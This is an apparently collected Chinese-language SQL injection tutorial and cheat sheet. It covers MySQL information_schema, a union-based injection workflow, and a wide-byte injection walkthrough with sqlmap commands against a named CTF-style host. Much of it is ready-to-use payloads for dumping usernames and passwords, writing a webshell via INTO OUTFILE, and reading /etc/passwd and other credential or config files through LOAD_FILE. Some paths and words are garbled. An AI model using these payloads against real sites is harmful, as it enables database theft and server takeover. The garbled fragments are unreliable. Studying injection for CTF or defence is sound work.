


# 前言
内容是网上收集的，可能存在错误
# SQLinjection 原理
用户【可控参数】中注入 SQL 语法，破坏原有 SQL 结构，达到编写程序时意料之外结果的攻击行为。
其原因可以归结为以下两个原因叠加造成的：
- 程序编写者在处理程序和数据库交互时，使用【字符串拼接】的方式构造 SQL 语句。
- 未对【用户可控参数】进行足够的过滤便将参数内容拼接到 SQL 查询语句中。
# SQL 注入的分类
在《web 安全深度剖析》这本书中作者张炳帅前辈认为 SQL 注入只分为数字型与字符型，其他的注入不过是这两大类型的不同展现形式，或不同展现位置罢了。
这些都是前辈们的总结
按变量类型分类
- 数字型
- 字符型
按 HTTP 提交方式分类
- GET 注入
- POST 注入
- Cookie 注入
按注入方式分类
- 报错注入
- 盲注
- 布尔盲注
- 时间盲注
- union 注入
编码问题
- 宽字节注入
# MySQL 5.0 以上和 MySQL 5.0 以下版本的区别
MySQL 5.0 以上版本存在一个存储着数据库信息的信息数据库 --INFORMATION_SCHEMA ，其中保存着关于 MySQL 服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。而 5.0 以下没有。
# INFORMATION_SCHEMA 库
系统数据库，记录当前数据库的数据库，表，列，用户权限等信息
# SCHEMATA 表
储存 mysql 所有数据库的基本信息，包括数据库名，编码类型路径等
我们需要记住该表中记录数据库库名的字段名为 SCHEMA_NAME。
# TABLES 表
储存 mysql 中的表信息，包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等
我们需要记住该表中记录数据库名和表名的字段名分别为 TABLE_SCHEMA 和 TABLE_NAME。
# COLUMNS 表
储存 mysql 中表的列信息，包括这个表的所有列以及每个列的信息，该列是表中的第几列，列的数据类型，列的编码类型，列的权限，列的注释等
我们需要记住该表中记录数据库库名、表名和字段名的字段名为 TABLE_SCHEMA、TABLE_NAME 和 COLUMN_NAME。
# 常用的关于 information_schema 库的 SQL 语句
需要记住的几个函数
- database ()：当前网站使用的数据库
- version ()：当前 MySQL 的版本
- user ()：当前 MySQL 的用户
limit 的用法
limit m,n 其中 m 是指记录开始的位置，从 0 开始，表示第一条记录；n 是指取 n 条记录。
# 查询数据表
.... union select table_name from information_schema.tables where table_schema=database(); | |
.... union select group_concat(table_name) from information_schema.tables where table_schema=database(); |
mysql 的联合查询会把所有的查询结果返回到第一个查询的字段下，在注入过程中常让第一个查询结果错误，这样就只显示你联合查询的结果了
# 查询字段
union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='你查询出来的表名' |
# 一句话总结
查询数据表与表字段的时候会用到 information_schema 库
# SQL 注入的基本流程
# 判断是否存在注入点
# 判断注入类型
# 猜字段数量
order by 1;后面加数字是对查询的第几列排序，从而实现判断字段的个数的目的 | |
迭代1~n,直到页面出错（也就是数据库报错了，里面没有这一列。） | |
order by 5 页面正常 | |
order by 6 页面错误 | |
共有6个字段 |
# 看看哪个字段回显
.... union select 1,2,3,4; | |
看回显什么数字，就可以知道那个字段回显。 |
# 查询数据库名，版本，用户
.... union select 1,database(),3,4; | |
...........version().. | |
...........user().. |
# 查询数据表
.... union select table_name from information_schema.tables where table_schema=database(); | |
.... union select group_concat(table_name) from information_schema.tables where table_schema=database(); |
# 查询字段
union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='你查询出来的表名' |
# 查询数据
union selcet 1,group_concat(要查询的字段1,字段2,....字段n),3,4 from 数据表; | |
union select 1,(select group_concat(字段) from 数据表),3,4; |
# 宽字节注入
# 宽字节注入产生的原因
宽字节注入就是用一个大于 128 的十六进制数来吃掉转义符 ```
gbk 编码，用两个字节作为一个字符的编码.
# 宽字节注入的手工注入流程
1、判断列数：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=�' order by 1%23
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=�' order by 2%23
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=�' order by 3%23
order by 3 时报错，说明只有两列。
2、各类信息：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=�' and 1=2
union select 2,(concat_ws(char(32,58,32),user(),database(),version()))%23
sae-chinalover@123.125.23.212 : sae-chinalover : 5.5.52-0ubuntu0.14.04.1
3、库名：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=�' and 1=2 union select 2,database()%23
sae-chinalover
4、表名：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=�' and 1=2
union select 2,group_concat(table_name)
from information_schema.tables
where table_schema=database()%23
ctf,ctf2,ctf3,ctf4,news
5、ctf4 表的列名：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=�' and 1=2
union select 2,group_concat(column_name)
from information_schema.columns
where table_name=0x63746634%23
id,flag
这里注意：要将表名 ctf4 转为 16 进制
这里提供一个字符串转 16 进制的网站：
http://www.5ixuexiwang.com/str/hex.php
转了 16 进制之后记得在前面加上 0x
6、flag 列的数据：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=�' and 1=2
union select 2,(select flag from ctf4)%23
flag
# 使用 SQLmap 进行宽字节注入
sqlmap 跑法
1、查看有哪些库：
sqlmap.py -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=3" --tamper unmagicquotes --dbs
这个时侯就要用到一个脚本了：
脚本名：unmagicquotes.py
作用：宽字符绕过
2、表名：
sqlmap.py -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=3" --tamper unmagicquotes -D sae-chinalover --tables
3、列名：
sqlmap.py -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=3" --tamper unmagicquotes -D sae-chinalover -T ctf4 --columns
4、flag 列的数据：
sqlmap.py -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=3" --tamper unmagicquotes -D sae-chinalover -T ctf4 -C flag
# 常用姿势
# 判断是否存在 SQL 注入
and 1=1 | |
and 1=2 | |
-1 | |
\ | |
' | |
" |
# 暴字段长度
Order by 数字
# 匹配字段
and 1=1 union select 1,2,…,n
# 暴字段位置（回显位）
and 1=2 union select 1,2,…,n
# 利用内置函数暴数据库信息
version() database() user()
# 不用猜解可用字段暴数据库信息 (有些网站不适用):
and 1=2 union all select version()
and 1=2 union all select database()
and 1=2 union all select user()
# 操作系统信息：
and 1=2 union all select @@global.version_compile_os from mysql.user
# 数据库权限：
and ord (mid (user (),1,1))=114 返回正常说明为 root
# 暴库 (mysql>5.0)
Mysql 5 以上有内置库 information_schema，存储着 mysql 的所有数据库和
表结构信息
and 1=2 union select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from
information_schema.SCHEMATA limit 0,1
# 猜表
and 1=2 union select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from
information_schema.TABLES where TABLE_SCHEMA = 数据库（十六进制） limit 0（开始的记录，0 为第一个开始记录）,1（显示 1 条记录）—
# 猜字段
and 1=2 Union select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from
information_schema.COLUMNS where TABLE_NAME = 表名（十六进制）limit 0,1
# 暴密码
and 1=2 Union select 1,2,3, 用户名段，5,6,7, 密码段，8,9 from 表名 limit 0,1 高级用法（一个可用字段显示两个数据内容）：
Union select 1,2,3concat (用户名段，0x3c, 密码段),5,6,7,8,9 from 表名 limit 0,1
# 直接写马 (Root 权限)
条件：
1、知道站点物理路径
2、有足够大的权限（可以用 select …. from mysql.user 测试）
3、magic_quotes_gpc()=OFF
select ‘’ into outfile ‘物理路径’
and 1=2 union all select 一句话 HEX 值 into outfile ‘路径’
# 文件读写
即通过数据库来读写服务器上的文件
LOAD_FILE(file_name)
其中 file_name 是文件的完整路径。
示例:
mysql> select load_file('D:/wamp64/tmp/1.txt'); | |
+----------------------------------+ | |
| load_file('D:/wamp64/tmp/1.txt') | | |
+----------------------------------+ | |
| 666 | | |
+----------------------------------+ |
select …… into outfile
outfile 函数可以导出多行，而 dumpfile 只能导出一行数据
outfile 函数在将数据写到文件里时有特殊的格式转换，而 dumpfile 则保持原数据格式
outfile 函数会在写入的文件最后加一个换行，即多写一行
实例：
mysql> select 'a\naa\raaaa' into outfile 'd:/test1.txt'; | |
Query OK, 1 row affected (0.00 sec) | |
mysql> select load_file('d:/test1.txt'); | |
+---------------------------+ | |
| load_file('d:/test1.txt') | | |
+---------------------------+ | |
| a\ | |
aaaa | |
| | |
+---------------------------+ | |
1 row in set (0.00 sec) | |
mysql> select 'a\naa\raaaa' into dumpfile 'd:/test.txt'; | |
Query OK, 1 row affected (0.00 sec) | |
mysql> select load_file('d:/test.txt') | |
-> ; | |
+--------------------------+ | |
| load_file('d:/test.txt') | | |
+--------------------------+ | |
| a | |
aaaa | | |
+--------------------------+ | |
1 row in set (0.00 sec) |
有一个需要关注的点就是：outfile 后面不能接 0x 开头或者 char 转换以后的路径，只能是单引号路径。这个问题在 php 注入中更加麻烦，因为会自动将单引号转义成 ', 那么基本就 GG 了，但是 load_file，后面的路径可以是单引号、0x、char 转换的字符，但是路径中的斜杠是 / 而不是 \
# MYSQL 新特性 secure_file_priv 对读写文件的影响
secure-file-priv 特性
secure-file-priv 参数是用来限制 LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE () 传到哪个指定目录的。
secure_file_priv 的值为 null ，表示限制 mysqld 不允许导入 | 导出
当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入 | 导出只能发生在 /tmp/ 目录下
当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入 | 导出做限制
如何查看 secure-file-priv 参数的值：
show global variables like '%secure%';
+--------------------------+------+
| Variable_name | Value|
+--------------------------+------+
| require_secure_transport | OFF |
| secure_auth | ON |
| secure_file_priv | NULL |
+--------------------------+------+
修改 secure_file_priv 的值:
windows 下：修改 my.ini 在 [mysqld] 内加入 secure_file_priv =
linux 下：修改 my.cnf 在 [mysqld] 内加入 secure_file_priv =
然后重启 mysql，再查询 secure_file_priv
# load_file () 常用路径：
1、 replace(load_file(0×2F6574632F706173737764),0×3c,0×20)
2、replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))
上面两个是查看一个 PHP 文件里完全显示代码。有些时候不替换一些字符，如 “<” 替换成” 空格” 返回的是网页。而无法查看到代码.
3、 load_file (char (47)) 可以列出 FreeBSD,Sunos 系统根目录
4、/etc tpd/conf tpd.conf 或 /usr/local/apche/conf tpd.conf 查看 linux APACHE 虚拟主机配置文件
5、c:\Program Files\Apache Group\Apache\conf \httpd.conf 或 C:\apache\conf \httpd.conf 查看 WINDOWS 系统 apache 文件
6、c:/Resin-3.0.14/conf/resin.conf 查看 jsp 开发的网站 resin 文件配置信息.
7、c:/Resin/conf/resin.conf/usr/local/resin/conf/resin.conf 查看 linux 系统配置的 JSP 虚拟主机
8、d:\APACHE\Apache2\conf\httpd.conf
9、C:\Program Files\mysql\my.ini
10、…/themes/darkblue_orange/layout.inc.php phpmyadmin 爆路径
11、 c:\windows\system32\inetsrv\MetaBase.xml 查看 IIS 的虚拟主机配置文件
12、 /usr/local/resin-3.0.22/conf/resin.conf 针对 3.0.22 的 RESIN 配置文件查看
13、 /usr/local/resin-pro-3.0.22/conf/resin.conf 同上
14 、/usr/local/app/apache2/conf/extra tpd-vhosts.conf APASHE 虚拟主机查看
15、 /etc/sysconfig/iptables 本看防火墙策略
16 、 usr/local/app/php5 b/php.ini PHP 的相当设置
17 、/etc/my.cnf MYSQL 的配置文件
18、 /etc/redhat-release 红帽子的系统版本
19 、C:\mysql\data\mysql\user.MYD 存在 MYSQL 系统中的用户密码
20、/etc/sysconfig/network-scripts/ifcfg-eth0 查看 IP.
21、/usr/local/app/php5 b/php.ini//PHP 相关设置
22、/usr/local/app/apache2/conf/extra tpd-vhosts.conf// 虚拟网站设置
23、C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini
24、c:\windows\my.ini
25、c:\boot.ini
# 网站常用配置文件
config.inc.php、config.php。
load_file（）时要用 replace（load_file (HEX)，char (60),char (32)）
注：
Char (60) 表示 <
Char（32）表示 空格
# 手工注射时出现的问题：
当注射后页面显示：
Illegal mix of collations (latin1_swedish_ci,IMPLICIT) and (utf8_general_ci,IMPLICIT) for operation ‘UNION’
如：/instrument.php?ID=13 and 1=2 union select 1,load_file (0x433A5C626F6F742E696E69),3,4,user ()
这是由于前后编码不一致造成的，
解决方法：在参数前加上 unhex (hex (参数)) 就可以了。上面的 URL 就可以改为：
/instrument.php?ID=13 and 1=2 union select 1,unhex(hex(load_file(0x433A5C626F6F742E696E69))),3,4,unhex(hex(user()))
# 常见函数
# length()
MySQL LENGTH (str) 函数的返回值为字符串的字节长度，使用 uft8（UNICODE 的一种变长字符编码，又称万国码）编码字符集时，一个汉字是 3 个字节，一个数字或字母是一个字节。
【实例】使用 LENGTH 函数计算字符串长度，输入的 SQL 语句和执行结果如下所示。
mysql> SELECT LENGTH('name'),LENGTH('数据库');
+----------------+---------------------+
|LENGTH('name') | LENGTH('数据库') |
+----------------+---------------------+
| 4 | 9 |
+----------------+---------------------+
1 row in set (0.04 sec)
由运行结果可以看到，一个汉字是 3 个字节，“数据库” 字符串占 9 个字节。英文字符的个数和所占的字节相同，一个字符占 1 个字节。
# substr()
mysql substr () 函数
截取字符串
用法：substr (string string,num start,num length);
select substr (参数 1，参数 2，参数 3) from 表名
string 为字符串；start 为起始位置；length 为长度。
注意：mysql 中的 start 是从 1 开始的。
SUBSTR () 函数是 SUBSTRING () 函数的同义词，所以可以互换使用它们
# sleep()
# benchmark()
BENCHMARK(count,expr)
BENCHMARK()函数重复countTimes次执行表达式expr，它可以用于计时MySQL处理表达式有多快。结果值总是0。意欲用于mysql客户，它报告查询的执行时间。
mysql> select BENCHMARK(1000000,encode("hello","goodbye"));
+----------------------------------------------+
| BENCHMARK(1000000,encode("hello","goodbye")) |
+----------------------------------------------+
| 0 |
+----------------------------------------------+
1 row in set (4.74 sec)
# if(expr1,expr2,expr3)
if(length(database())>5,sleep(5),1)
# @@datadir
数据库文件所在位置
# @@version_compile_os
查看当前操作系统
# concat()
语法及使用特点：
CONCAT(str1,str2,…)
返回结果为连接参数产生的字符串。如有任何一个参数为 NULL ，则返回值为 NULL。可以有一个或多个参数。
# concat_ws()
使用函数 CONCAT_WS（）。使用语法为：CONCAT_WS (separator,str1,str2,…)
CONCAT_WS () 代表 CONCAT With Separator ，是 CONCAT () 的特殊形式。第一个参数是其它参数的分隔符。分
隔符的位置放在要连接的两个字符串之间。分隔符可以是一个字符串，也可以是其它参数。如果分隔符为 NULL，
则结果为 NULL。函数会忽略任何分隔符参数后的 NULL 值。但是 CONCAT_WS () 不会忽略任何空字符串。 (然而会
忽略所有的 NULL）。
如 SELECT CONCAT_WS ('_',id,name) AS con_ws FROM info LIMIT 1; 返回结果为
+----------+
| con_ws |
+----------+
| 1_BioCyc |
+----------+
# group_concat()
区分 concat_ws () 与 group_concat () 函数
concat_ws (char (32,58,32),user (),database (),version ())
在 concat_ws 函数中，第一个参数是用于作为分隔符将后面各个参数的内容分隔开来再进行相应的连接产生新的字符串。
group_connect () 函数
完整的语法如下：
group_concat ([DISTINCT] 要连接的字段 [Order BY ASC/DESC 排序字段] [Separator ‘分隔符’])
功能：将 group by 产生的同一个分组中的值连接起来，返回一个字符串结果
说明：通过使用 distinct 可以排除重复值；如果希望对结果中的值进行排序，可以使用 order by 子句；separator 是一个字符串值，缺省为一个逗号。
图一，区别

报错注入
0x7e ASCII ~
updatexml () 是更新 xml 文档的函数
语法 updatexml (目标 xml 文档，xml 路径，更新的内容)

# php
# preg_math()
# floor()
语法
floor (x)
返回不大于 x 的下一个整数，将 x 的小数部分舍去取整。floor () 返回的类型仍然是 float，因为 float 值的范围通常比 integer 要大。
<?php | |
echo(floor(0.60)); | |
echo(floor(0.40)); | |
echo(floor(5)); | |
echo(floor(5.1)); | |
echo(floor(-5.1)); | |
echo(floor(-5.9)) | |
?> | |
//输出： | |
0 | |
0 | |
5 | |
5 | |
-6 | |
-6 |
html 实体编码
# SQL injection payload
用户名 密码
数字型
?id=-1 union select 1,(select group_concat(concat_ws("-->",username,password) separator '<br>') from users),(@@datadir)
字段名
?id=-1 union select 1,2,(select group_concat(column_name separator '<br>') from information_schema.columns where table_name='users')
表名?id=-1 union select 1,(select group_concat(table_name separator '<br>') from information_schema.tables where table_schema=database()),3
单引号括号?id=-1') union select 1,(select group_concat(concat_ws("-->",username,password) separator '<br>') from users),3 --+